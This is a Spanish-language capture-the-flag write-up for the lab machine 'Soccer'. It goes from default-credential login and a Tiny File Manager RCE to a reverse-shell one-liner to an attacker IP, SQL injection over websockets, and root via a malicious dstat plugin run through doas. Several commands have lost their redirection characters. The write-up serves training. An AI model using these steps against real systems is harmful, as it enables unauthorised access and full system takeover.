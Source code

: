 ```yaml
---
title: 'CTF - Soccer WriteUp'
date: '2022-12-27'
tags: ["CTF", "Rce", "Suid", "Dstat", "Doas", "Websockets"]
draft: true
authors: ['default']
summary: 'Reto CTF que consiste en encontrar vulnerabilidades y explotarlas. Se realiza una exploración con nmap y wfuzz, encontrando una ruta /tiny. Se accede al repositorio y se encuentra una vulnerabilidad RCE en Tiny File Manager 2.4.6. Se obtiene acceso al servidor y se encuentra un subdominio donde se pueden verificar tickets de futbol. Se utiliza un script y sqlmap como proxy para realizar sqli. Se encuentra un archivo con el bit SUID activo llamado doas, se crea un plugin para dstat y se ejecuta como root. Finalmente, se obtiene acceso de root al servidor.'
images: ["/static/images/uploads/ctf-soccer-write-up/Soccer.webp", "/static/images/uploads/ctf-soccer-write-up/image.webp", "/static/images/uploads/ctf-soccer-write-up/favicon.ico", "/static/images/uploads/ctf-soccer-write-up/spider-orange.webp", "/static/images/uploads/ctf-soccer-write-up/image-1.webp", "/static/images/uploads/ctf-soccer-write-up/image-2.webp"]
---
```


![](/static/images/uploads/ctf-soccer-write-up/Soccer.webp)

Hacer nmap

Hacer wfuzz y encontrar /tiny

![](/static/images/uploads/ctf-soccer-write-up/image.webp)

Ir al repositorio https://github.com/prasathmani/tinyfilemanager y encontrar el siguiente trozo de markdown.

Default username/password: **admin/admin@123** and **user/12345**.


Probarlo y estar dentro.

Puedes subir archivos y ejecutar codigo remoto 

[Tiny File Manager 2.4.6 - Remote Code Execution (RCE)Tiny File Manager 2.4.6 - Remote Code Execution (RCE). CVE-2021-45010CVE-2021-40964 . webapps exploit for PHP platform![](/static/images/uploads/ctf-soccer-write-up/favicon.ico)

Exploit DatabaseFEBIN MON SAJI![](/static/images/uploads/ctf-soccer-write-up/spider-orange.webp)](https://www.exploit-db.com/exploits/50828)Puedo entrar a una shell con el siguiente comando 


```
bash -c "sh -i & /dev/tcp/10.10.14.88/1111 0&1"
```
Mirando en /etc/***nginx***/***sites***-***available***/ vemos un subdominio: http://soc-player.soccer.htb. Es una web donde te puedes registrar y verificar tickets de futbol. 

![](/static/images/uploads/ctf-soccer-write-up/image-1.webp)

La comunicación que hay por debajo es websocket. 

Existe un script https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html que levanta un servidor http, que utilizaremos de proxy con sqlmap para poder realizar sqli directamente.

![](/static/images/uploads/ctf-soccer-write-up/image-2.webp)

Entro por ssh, y busco archivos suid 


```
find \-perm -4000 2/dev/null
```
Encuentro doas


```
player@soccer:/usr/local/bin$ ls -l
-rwsr-xr-x 1 root root 42224 Nov 17 09:09 doas
-rwxr-xr-x 1 root root  2002 Nov 17 09:09 doasedit
-rwxr-xr-x 1 root root  5471 Nov 17 09:09 vidoas
```
El bit SUID activo.

Doas es un comando similar a sudo, capaz de ejecutar comandos desde otro usuario dependiendo su configuración. Su archivo de configuración por defecto está en /etc/doas.conf pero este no es el caso. Mirando el archivo vidoas, observamos los siguiente


```
player@soccer:/usr/local/bin$ cat vidoas | grep conf
# Edit a temporary copy of the doas.conf file and check it for syntax
# errors before installing it as the actual doas.conf file.
DOAS_CONF=/usr/local/etc/doas.conf
...
```
Haciendo un cat en esa ruta, vemos 


```
player@soccer:/usr/local/bin$ cat /usr/local/etc/doas.conf
permit nopass player as root cmd /usr/bin/dstat
```
dstat es un comando para ver procesos del sistema. Leyendo MAN, vemos que tiene una carpeta de plugins /usr/local/share/dstat/

Creamos un plugin dentro del directorio. El plugin tiene que seguir la siguiente convención de nombres: dstat\_.py. Por lo que ejecutamos el siguiente comando:


```
echo 'import os; os.system("bash -i")'  dstat_privesc.py
```
Ahora, debemos ejecutar dstat con ayuda de doas, siendo root y pasando el argumento necesario a dstat para que ejecute nuestro plugin. Como se denomina dstat\_privesc, tenemos que ejecutar el siguiente comando


```
doas -u root /usr/bin/dstat --privesc
root@soccer:/usr/local/share/dstat# whoami

# Output
root
```
